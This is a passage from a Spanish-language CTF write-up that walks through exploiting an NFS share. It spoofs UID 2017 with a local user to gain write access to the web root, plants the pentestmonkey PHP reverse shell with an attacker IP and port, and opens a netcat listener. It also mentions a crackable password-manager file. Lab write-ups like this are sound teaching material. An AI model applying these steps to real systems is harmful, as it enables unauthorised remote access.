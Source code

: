 | Volume /var/www/html
|   access: Read NoLookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID   GID  SIZE  TIME                 FILENAME
| rwxr-xr--   2017  33   4096  2023-04-06T00:40:01  .
| ??????????  ?     ?    ?     ?                    ..
| ??????????  ?     ?    ?     ?                    .htaccess
| ??????????  ?     ?    ?     ?                    css
| ??????????  ?     ?    ?     ?                    images
| ??????????  ?     ?    ?     ?                    index.html
| ??????????  ?     ?    ?     ?                    js
```
Es lo mismo de arriba, solo que el UID es 2017

Como extra, dentro dentro de la carpeta ```Documents``` de ```ross```, hay un archivo de un gestor de contraseñas que podriamos intentar crackear, pero les digo que no es por ahi

```
󰣇  c4rta /mnt/ross  tree      
.
├── Desktop
├── Documents
│   └── Passwords.kdbx ---> archivo de contraseñas
```

## Explotando NFS y flag de user

### Directorio /var/www/html

Como sabermos que solo vamos a tener acceso con un usuario con el UID 2017, podemos crear un usuario en muestra maquina y asignarle ese UID:

```
sudo useradd web
sudo usermod -u 2017 web
sudo groupmod -g 2017 web
```

Ahora inicamos sesion con ese usuario y ya podemos navegar entre ese directorio

Una vez dentro, tenemos archivos de un sitio web, ese sitio web corresponde al sitio web de la maquina, y asu vez, ese directorio que montamos esta sincronizado con el de la maquina, asi que lo que intentaremos es crear un archivo php que sea una reverse shell y luego acceder a ese recurso.

Usare la reverse shell de pentest monkey.

En el directorio /var/www/html creare un archivo llamado ```shell.php```, donde pegare la reverse shell y editare la IP Y puerto, de esta manera:

```
$ip = '10.10.14.21';  // CHANGE THIS
$port = 443; 
```

Ahora me pondre en escucha por netcat:

```
nc -nlvp 443
```
```